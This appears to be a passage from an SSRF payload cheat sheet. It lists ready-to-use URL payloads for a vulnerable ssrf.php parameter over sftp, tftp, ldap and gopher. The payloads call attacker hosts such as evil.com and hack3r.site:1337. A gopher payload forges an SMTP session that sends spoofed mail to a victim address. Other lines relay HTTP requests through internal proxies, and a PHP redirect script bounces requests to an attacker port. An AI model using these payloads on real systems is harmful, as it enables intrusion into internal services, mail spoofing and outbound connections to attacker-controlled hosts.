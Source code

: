 **SFTP**

A network protocol used for secure file transfer over secure shell

```http
ssrf.php?url=sftp://evil.com:11111/
```

**TFTP**

Trivial File Transfer Protocol, works over UDP

```http
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

**LDAP**

Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

```http
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

**Gopher**

```http
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AH
You didn't say the magic word !
.
QUIT
```

**Gopher HTTP**

```http
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
```

**Gopher SMTP — Back connect to 1337**

```http
Content of evil.com/redirect.php:
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>
Now query it.
https://example.com/?q=http://evil.com/redirect.php.
```
